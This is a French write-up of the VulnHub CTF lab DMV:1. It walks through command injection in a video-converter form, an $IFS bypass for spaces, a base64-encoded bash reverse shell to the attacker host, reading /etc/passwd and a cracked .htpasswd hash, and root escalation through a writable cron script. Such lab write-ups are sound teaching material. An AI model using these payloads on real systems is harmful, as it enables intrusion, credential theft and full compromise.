 ```yaml
---
title: "Solution du CTF DMV #1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[DMV: 1](https://www.vulnhub.com/entry/dmv-1,462/) est le premier CTF d'une série créé par [Jonathan Toledo](https://twitter.com/over_jt).

La description est la suivante :

> It is a simple machine that replicates a real scenario that I found.
> 
> The goal is to get two flags, one that is in the secret folder and the other that can only be read by the root user

```
Nmap scan report for 192.168.56.68
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 651bfc741039dfddd02df0531ceb6dec (RSA)
|   256 c42804a5c3b96a955a4d7a6e46e214db (ECDSA)
|_  256 ba07bbcd424af293d105d0b34cb1d9b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## Youteubé

On a donc ce site web qui ressemble beaucoup à des sites existants permettant d'obtenir un rip pour une vidéo YouTube. La page n'a pas de tag `form` défini pourtant quand on remplit et soumet des données on peut voir (via les developper tools) une requête passer.

```html
         <h3>Convert My Video</h3>
         <label for="ytid">Video ID:</label><input type="text" id="ytid" name="ytid">
         <button type="button" id="convert">Convert!</button>
```

C'est parce que la logique est présente dans un code JS qui est chargé :

```js

$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

Quoiqu'il en soit si je saisi un guillemet dans le champ de texte j'obtiens la réponse suivante pour la requête Ajax :

```json
{"status":2,"errors":"sh: 1: Syntax error: Unterminated quoted string\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=\"'","output":"","result_url":"\/tmp\/downloads\/63875bad67c74.mp3"}
```

Une erreur de syntaxe bash... donc exécution de commande. Un point virgule peut suffire à échapper la commande en cours mais ça fonctionne aussi avec les backticks. Exemple avec la commande ````id```` :

```json
{
  "status":1,
  "errors":"WARNING: Assuming --restrict-filenames since --- snip --- Could not send HEAD request to https:\/\/www.youtube.com\/watch?v=uid=33(www-data): <urlopen error [Errno -3] Temporary failure in name resolution>\nERROR: Unable to download webpage: <urlopen error [Errno -3] Temporary failure in name resolution> (caused by URLError(gaierror(-3, 'Temporary failure in name resolution'),))\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=`id`","output":"[generic] watch?v=uid=33(www-data): Requesting header\n[generic] watch?v=uid=33(www-data): Downloading webpage\n","result_url":"\/tmp\/downloads\/63875c3149f3b.mp3"}
```

On voit que la commande a été exécutée même si on a juste une partie de l'output (visiblement tronqué au premier espace). De même si on demande `ls -al` il semble que seul le début de la commande passe, tronquée elle aussi au premier espace. Il faut donc essayer de passer outre ça et la solution est généralement la variable d'environmment `IFS` qui contient un whitespace.

Ainsi si je saisi `;ls""$IFS"-la"$IFS/;)` j'obtiens le listing espéré :

`total 2017384\ndrwxr-xr-x  24 root root       4096 Apr 12  2020 .\ndrwxr-xr-x  24 root root       4096 Apr 12  2020 ..\ndrwxr-xr-x   2 root root       4096 Apr 12  2020 bin\n`

etc, etc. Pour éviter à avoir à gérer trop de cas d'espaces je vais me contenter d'encoder la commande finale en base64 et je passerais au script une commande qui la décode et la passe à `bash`.

D'abord obtenir la commande de reverse-shell en base64 :

```bash
echo 'bash -i >& /dev/tcp/192.168.56.1/9999 0>&1' | base64 -w0
```

Je met le résultat avec les `$IFS` et chaines vides nécessaires :

```bash
echo""$IFS""YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvOTk5OSAwPiYxCg==""|base64""$IFS""-d|bash
```

On passe le tout avec les points viirgules de part et d'autre et ça mord :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.68.
Ncat: Connection from 192.168.56.68:58648.
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dmv:/var/www/html$ which python2 python3 python
which python2 python3 python
/usr/bin/python2
/usr/bin/python3
/usr/bin/python
www-data@dmv:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@dmv:/var/www/html$ ls
ls
admin  images  index.php  js  style.css  tmp
www-data@dmv:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
dmv:x:1000:1000:dmv:/home/dmv:/bin/bash
```

Je trouve le premier flag dans un dossier de la racine web :

```bash
$ cat /var/www/html/admin/flag.txt
cat /var/www/html/admin/flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

Mais pas que, on trouve aussi un fichier `.htpasswd` :

`itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

Il se cracke rapidement :

`jessie           (itsmeadmin)`

Mais il ne semble utilisable ni pour root ni pour le compte dmv présent sur le système.

## Autopspy

`LinPEAS` ne trouvant rien de particulier (il y a la faille sudo toutefois), je rapaptrie et exécute pspy pour espionner l'activité du système.

Je remarque une tache planifiée exécutée par root :

```bash
2022/11/30 15:37:01 CMD: UID=0    PID=27335  | bash /var/www/html/tmp/clean.sh 
2022/11/30 15:37:01 CMD: UID=0    PID=27334  | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh
```

Or le script nous appartient :

`-rw-r--r-- 1 www-data www-data 17 Apr 12  2020 /var/www/html/tmp/clean.sh`

Je rajoute juste cette ligne en début de fichier :

```bash
chmod 4755 /bin/dash
```

Après une minute c'est dans la poche :

```bash
www-data@dmv:/tmp$ ls -al /bin/dash
-rwsr-xr-x 1 root root 119K Jan 25  2018 /bin/dash
www-data@dmv:/tmp$ /bin/dash -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

Scénario intéressant, j'ai moi même déjà du faire face à cette problématique de tronquage :)
